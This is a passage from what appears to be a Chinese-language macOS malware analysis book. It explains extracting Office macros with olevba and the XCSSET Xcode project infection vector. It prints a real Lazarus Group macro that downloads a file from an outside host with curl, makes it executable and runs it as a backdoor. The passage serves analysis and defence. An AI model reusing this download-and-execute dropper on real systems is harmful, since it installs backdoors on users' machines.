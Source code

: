你可以使用诸如 [开源](https://github.com/decalage2/oletools/wiki/olevba) `olevba` [工具](https://github.com/decalage2/oletools/wiki/olevba) 提取嵌入的宏代码。例如，看看以下宏代码（清单 1-6），它出现在一个恶意 Word 文档中，目标是韩国用户：

```
% **olevba -c "샘플_기술사업계획서(벤처기업평가용.doc"**

Sub AutoOpen()
 ...

 #If Mac Then 1
    sur = "https://nzssdm.com/assets/mt.dat" 2

    spath = "/tmp/": i = 0 3
    Do
      spath = spath & Chr(Int(Rnd * 26) + 97): i = i + 1
    Loop Until i > 12

    res = system("curl -o " & spath & " " & sur) 4
    res = system("chmod +x " & spath)
    res = popen(spath, "r") 5
```

清单 1-6：恶意宏代码（Lazarus Group 后门）

提取的 Mac 代码包含了 Mac 特定的逻辑，位于 `#If Mac Then` 块中 1。该代码首先执行一些初始化操作，包括设置一个带有远程 URL 的变量 2，并动态构建一个位于 */tmp* 目录下的随机路径 3。接着，它使用 `curl` 下载远程资源 (*mt.dat*) 到随机生成的本地路径 4。一旦下载完成，它会调用 `chmod` 设置文件的可执行权限，并通过 `popen` API 执行该文件 5。这个下载的文件是一个持久化的 macOS 后门。在第四章中，我们将深入分析恶意 Office 文档的细节。

自 2016 年 Office 以来，macOS 上的 Microsoft Office 应用程序运行在一个限制性沙盒中，旨在限制任何恶意代码的影响。然而，在多个情况下，安全研究人员，包括作者本人，发现了微小的沙盒逃逸。如果你有兴趣了解更多关于基于宏的攻击和沙盒逃逸作为 macOS 感染向量的内容，可以查看我的演讲“Documents of Doom: Infecting macOS via Office Macros。”^(16)

## Xcode 项目

有时，感染向量非常有针对性，就像 XCSSET 的案例一样。该恶意软件试图通过感染 Xcode 项目来感染 macOS 开发者。*Xcode*是开发 Apple 设备软件的事实标准 IDE。如果下载并构建一个 XCSSET 感染的 Xcode 项目，恶意代码会被自动执行，开发者的 Mac 也会被感染。发现 XCSSET 的趋势科技公司解释道：

> 这些 Xcode 项目已被修改，使得在构建时，这些项目会运行恶意代码。最终，这导致主 XCSSET 恶意软件被丢弃并在受影响的系统上运行。感染的用户还容易遭遇凭证、账户和其他重要数据被窃取的风险。^(17)

检查一个感染了 XCSSET 的 Xcode 项目，可以看到项目的*project.pbxproj*文件中有一个脚本，执行来自一个名为*/.xcassets/*的隐藏目录中的另一个脚本*Assets.xcassets*（图 1-11）。

![查看 Xcode 项目中的 Assets Compiler，我们看到一行脚本执行了一个隐藏的脚本。](img/f01011.png)
